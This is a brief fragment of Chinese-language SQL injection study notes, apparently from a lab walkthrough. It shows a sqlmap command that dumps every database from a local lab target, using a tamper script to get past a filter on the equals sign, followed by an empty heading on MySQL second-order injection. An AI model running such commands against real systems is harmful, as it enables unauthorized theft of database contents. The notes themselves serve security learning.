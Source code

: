 

# 等价函数替换过滤

```
python sqlmap.py -u "http://192.168.126.138/sqli/10.php?id=1" --dump-all --batch --tamper=equaltolike
```

![image-20250904195528204](images/image-20250904195528204.png)



# MySQL二次注入
